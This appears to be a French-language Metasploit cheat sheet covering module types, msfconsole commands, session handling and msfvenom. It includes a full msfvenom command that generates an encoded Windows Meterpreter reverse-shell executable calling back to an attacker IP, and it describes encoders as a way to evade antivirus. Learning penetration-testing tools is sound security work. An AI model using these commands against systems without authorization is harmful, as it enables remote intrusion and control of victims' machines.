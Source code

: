 # 1) C'est quoi Metasploit 

* Metasploit est un des outils de test d'intrusion utilisés 
* Metasploit offre des outils pour identifier les vulnérabilités, développer des exploits et tester la pénétration.
# **2) Outils Principaux de Metasploit**

1. **MSFconsole** : Interface en ligne de commande avec une riche suite de commandes pour gérer, lancer des exploits et manipuler des sessions.

2. **MSFvenom** : Un outil de génération de payloads , utilisé pour créer différents types de payloads, y compris Meterpreter.

3. **Meterpreter** : Un payload avancé qui fournit un shell interactif, permettant aux attaquants de s'interfacer avec le système cible.

4. **MSFdb** : Permet d'intégrer Metasploit avec une base de données. Il facilite le suivi des vulnérabilités découvertes lors de l'exploitation.

# 3) Les types de modules 
Dans Metasploit, les modules sont organisés en plusieurs catégories en fonction de leur fonctionnalité. Voici les principaux types de modules que vous pouvez trouver dans Metasploit:

1. **Exploits** : Code d'exploitation d'une vulnérabilité spécifique détecté
2. **Payloads** : Code exécuté sur la cible. L'action qui sera executé sur la machine
3. **Auxiliary** : Utilitaires qui ne sont pas nécessairement des exploits ou des payloads, comme des scanners pour détecter des vulnérabilités, des serveurs pour capturer du trafic, ou des outils pour effectuer des attaques par déni de service.
4. **Post** : Post-exploitation pour extraire des données, escalader des privilèges, ou effectuer d'autres actions
5. **Encoders** : Les encoders sont utilisés pour s'assurer que les payloads passent inaperçus et ne sont pas détectés par des mécanismes de défense tels que les antivirus. Ils modifient l'apparence du payload tout en conservant sa fonctionnalité.
6. **Nops** : Les "No Operation" sont utilisés pour garantir que l'exploit fonctionne correctement en créant un espace tampon stable. Ils sont souvent utilisés pour maintenir la taille et l'emplacement d'un exploit en mémoire.
7. **Evasions** (dans les versions plus récentes de Metasploit) : Eviter la détection par des systèmes de détection et de prévention des intrusions.
* Lister l'arborescence de metasploit pour trouver ce qu'on cherche
```
tree /usr/share/metasploit-framework/modules/ -L 2
```
# **3) Utilisation de Metasploit**
0. Lancer métasploit
```
msfconsole
```
1. Recherche des modules spécifiques 
```
search type:exploit name:apache
```
2. Charger un module spécifique
```
use [CHEMIN|NUM]
```
3. Afficher et définir les options d'un module 
```
info
show options
set [VARIABLE] [VALEURS]
run
```
4. Affiche les sessions actives avec une/des cibles
```
sessions # Affiche la liste de toutes les sessions actives.
sessions -i [ID] # Intéragir avec une session
sessions -K # Terminer toutes les sessions actives.
sessions -k [ID] #Terminer une session spécifique
sessions -u [ID] #Mettre à niveau une session shell simple en Meterpreter.
```
5. Mettre la session en arrière-plan
```
background
```


# 4) Utilisation de Msfvenom
0. Lister et choisir un payload
```
msfvenom -l payloads
msfvenom -l encoders
```
1. Générer un payload 
```
msfvenom -p [payload] LHOST=[LHOST] LPORT=[LPORT] -f [format] -o [output file]

-e [encoder] : Encodage du payload (optionnel)
-i [NUM] : Le nombre d'encodage du payload
```
2. Exemple d'un payload reverse shells 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe
```

# 5) Utilisation de Meterpreter
* Pour définir meterpreter dans une exploit comme le payload
```
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [Votre IP]
set LPORT [Port d'écoute]
set RHOST [IP de la cible]

```
